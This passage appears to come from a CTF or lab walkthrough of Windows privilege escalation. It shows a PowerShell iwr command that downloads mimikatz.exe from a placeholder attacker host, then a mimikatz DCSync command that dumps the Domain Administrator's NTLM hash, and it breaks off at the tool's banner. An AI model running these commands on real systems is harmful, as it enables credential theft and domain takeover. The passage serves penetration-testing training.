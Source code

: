 ![](images/Pasted%20image%2020250628142908.png)

### Privilege Escalation

I changed to the `%temp%` folder and used PowerShell's `Invoke-WebRequest` (`iwr`) to download `mimikatz.exe` from the attack host.
```
C:\Windows\system32>cd %temp%
cd %temp%

C:\Windows\Temp>powershell -c "iwr http://ATTACKER_IP:8000/mimikatz.exe -outfile mimikatz.exe"
powershell -c "iwr http://ATTACKER_IP:8000/mimikatz.exe -outfile mimikatz.exe"
```

`mimikatz` was run and the Domain Administrator's NTLM hash was dumped.
```
C:\Windows\Temp>powershell -c "iwr http://ATTACKER_IP:8000/mimikatz.exe -outfile mimikatz.exe"
powershell -c "iwr http://ATTACKER_IP:8000/mimikatz.exe -outfile mimikatz.exe"

C:\Windows\Temp>mimikatz.exe "privilege::debug" "token::elevate" "lsadump::dcsync /user:Administrator" "exit"
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::dcsync /user:Administrator" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
```